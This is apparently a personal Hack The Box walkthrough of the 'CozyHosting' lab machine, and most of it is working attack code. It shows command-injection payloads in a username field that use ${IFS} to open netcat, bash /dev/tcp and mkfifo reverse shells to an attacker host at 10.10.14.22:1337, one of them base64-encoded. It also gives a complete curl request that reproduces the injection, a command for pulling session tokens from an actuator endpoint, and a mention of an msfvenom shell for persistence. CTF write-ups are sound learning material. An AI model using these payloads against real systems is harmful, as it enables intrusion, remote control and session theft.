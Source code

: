 I realize that the target has netcat so I try a few injections targeting that binary.
```
kanderson$(nc${IFS}-e${IFS}/bin/sh${IFS}10.10.14.22${IFS}1337)
```
```
kanderson$(nc${IFS}-lvnp${IFS}1337)
```
No dice on a bind shell with nc. I switch to a reverse shell:

```
echo 'bash -i >/dev/tcp/10.10.14.22/1337 0<&1 2>&1' | base64
```
```
kanderson;$(echo${IFS}YmFzaCAtaSA+L2Rldi90Y3AvMTAuMTAuMTQuMjIvMTMzNyAwPCYxIDI+JjEK|base64${IFS}-d|bash)
```
I learned in the video walkthrough after completing the box that the Ippsec got this to work by removing the +. The + and & will break in the http request. You can add an extra space anywhere you have a space or URL encode the base64 in the repeater request to bypass.

My dumbass on the other hand do some furious googling and arrive at a reverse shell that does not make use of the & operator:
```
kanderson$(mkfifo${IFS}/tmp/x;nc${IFS}10.10.14.22${IFS}1337</tmp/x|bash${IFS}>/tmp/x)
```

![[Pasted image 20250612212500.png]]

And I am in!.... a jail shell.

To re-establish connection I copy/pasted the command from burp:
```
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: cozyhosting.htb' -H $'Content-Length: 111' -H $'Cache-Control: max-age=0' -H $'Accept-Language: en-US,en;q=0.9' -H $'Origin: http://cozyhosting.htb' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://cozyhosting.htb/admin?error=Host%20key%20verification%20failed.' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    -b $'JSESSIONID=ACBABA8CFE7F5E22F92462BF4B675BC0' \
    --data-binary $'host=127.0.0.1&username=kanderson$(mkfifo${IFS}/tmp/x;nc${IFS}10.10.14.22${IFS}1337</tmp/x|bash${IFS}>/tmp/x)\x0d\x0a' \
    $'http://cozyhosting.htb/executessh'
```
You can use this request to grab the session token:
```
curl http://cozyhosting.htb/actuator/sessions | jq .
```

Poking around a little I find that you can curl and wget into the /tmp folder this is important to me because I need to build another reverse shell - one that allows for redirection.

![[Pasted image 20250612213848.png]]

I craft a shell from msfvenom and run that back for better persistence and a more stable shell
